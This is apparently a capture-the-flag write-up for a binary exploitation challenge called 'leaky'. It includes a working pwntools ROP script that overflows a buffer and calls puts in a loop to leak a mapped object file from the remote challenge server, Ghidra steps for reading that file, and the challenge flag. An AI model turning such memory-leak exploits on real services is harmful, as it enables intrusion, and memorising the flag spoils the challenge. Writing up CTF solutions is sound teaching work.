


# leaky

## Description

Attack this binary and get the flag!

```nc challenges.tamuctf.com 8374```

## Solution

`gigem{l34ky_m3m0ry}`

Absolutely cursed.

Leaky loads and executes a .o manually:



This is likely the flag-checking code. Unfortunately, it's not provided to us, so this isn't trivial reversing.

Leaky is trivially vulnerable to buffer overflow:


There's no obvious execve exploit here, but there are gadgets for puts, printf, putchar, etc. The name being a bit of a hint, let's leak flag_check.o.

```python
from pwn import *
import re

context.log_level = 'error'

elf = ELF("./leaky")
rop = ROP(elf)

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_gadget = elf.plt['puts']
vuln_gadget = elf.symbols['vuln']

with open("flag_check_gen.o", "wb") as f:
    i = 0
    while i < 0x800:
        print("Trying", 0x10000000 + i)

        chain = p64(0x10000000 + i) + p64(puts_gadget) + p64(vuln_gadget) + b'A' * 16 + p64(pop_rdi)

        p = remote('34.123.3.89', 8374)
        # p = gdb.debug("./leaky")
        # p = elf.process()

        p.recvuntil("What's the flag? ")
        p.sendline(chain)
        p.recvuntil("\n")

        resp = p.recvuntil("\n", drop=True).replace(b"That's wrong :(", b"") + b"\0"

        # print(resp)
        f.write(resp)
        i += len(resp)
        p.close()
```

This code effectively scans the `flag_check.o` by reading the memory it's mapped to. We need to pop the location we're scanning into %rdi because that register is the first argument to puts, so we pop `0x10000000 + i` into %rdi, then call puts for this chain.

Because `puts` terminates at null bytes, we'll just read until the newline of puts and then quit and start a new connection. This is somewhat dangerous as there may be "newlines" in the "strings" present in the elf, but we'll survive. We call `vuln` again just to give it something to do, but this realistically shouldn't be a problem (and a quick `setvbuf` will probably fix it).

This successfully extracts the file, but we're greeted with:


To get around this, notice this instruction which jumps over a large amount of the listing:


This happens because Ghidra uses [recursive descent disassembly](https://reverseengineering.stackexchange.com/a/2350).

To force a linear disassembly at this location, we simply hit the "d" key on the keyboard to force disassembly of these instructions.



Ghidra makes a new function here instead of tacking onto `flag_check` due to reasons. Helpfully, the decompilation of this section is quite easy to read, and we get our flag by simply reading the compared characters in order:


Note that, in the decompilation above, you can clearly see the effects of splitting at newlines (the `y` of `l34ky` is set to overwrite the 0th index, but in reality it's overwriting the 10th and our scanning completely whiffed because it replaced it with 0).
